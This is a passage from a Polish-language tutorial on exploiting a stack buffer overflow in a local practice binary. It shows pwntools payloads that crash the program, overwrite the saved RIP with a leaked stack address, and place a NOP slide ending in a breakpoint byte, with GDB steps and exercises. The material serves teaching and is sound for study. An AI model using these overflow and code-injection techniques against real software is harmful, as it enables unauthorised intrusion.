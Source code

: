 Podmieńmy jednak `name = "Alicja"` na następujący fragment kodu:

```python
name = "Alicja\x00aaaaa"
name += "a"*14
```

Tym razem program powinien zakończyć się wyjątkiem SIGSEGV (Segmentation fault):

```
[+] Starting local process './bof': pid 65445
[+] Receiving all data: Done (11B)
[*] Process './bof' stopped with exit code -11 (SIGSEGV) (pid 65445)
Hi Alicja!
```

Aby lepiej zrozumieć co się stało, spróbujmy podpiąć debugger GDB przed wysłaniem "imienia". Można to zrealizować funkcją `gdb.attach`:

```python
name = "Alicja\x00aaaaa"
name += "a"*12
gdb.attach(p)
```

Następnie w nowym oknie GDB wpisz `c` i wciśnij ENTER.

GDB powinien zasygnalizować crash programu. Następnie wpisz `info registers` i ponownie wciśnij ENTER.

Ćwiczenia:

4. Jaka jest wartość rejestrów `RBP` i `RIP`? Dlaczego?
5. Dlaczego program zakończył działanie?

## 2.2. Wstrzyknięcie kodu

Okno GDB zamykamy wprowadzając komendę `q`.

Skoro możemy wprowadzić dowolną wartość do rejestru `RIP`, możemy przekierować sterowanie w dowolne miejsce. Tym razem przekierujemy wykonywanie kodu do miejsca wewnątrz ramki funkcji main, którego adres wyświetlany jest na samym początku wykonania programu i pobierany przez nasz skrypt. Adres ten umieścimy w miejscu, gdzie znajduje się adres powrotu.

```python
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
```

Względnie trudno jednak określić, który bajt naszego wejścia trafi akurat w miejsce, gdzie znajduje się zmienna `v`. Z tego powodu stosuje się technikę nazywaną **NOP slide**, wypełniając fragment stosu wartością `0x90`. Opkod `90` odpowiada instrukcji `NOP`, która jest jednobajtowa i której wykonanie nie ma żadnych skutków ubocznych. W momencie, gdy procesor rozpocznie wykonywanie naszego bufora na stosie: zjedzie po instrukcjach NOP, aż do miejsca w którym umieściliśmy docelowy kod.

```python
name = "Alicja\x00aaaaa"
name += "a"*8          # rbp
name += p64(stack_ptr) # rip
# NOP slide
name += '\x90' * 128
name += '\xCC'
gdb.attach(p)
```
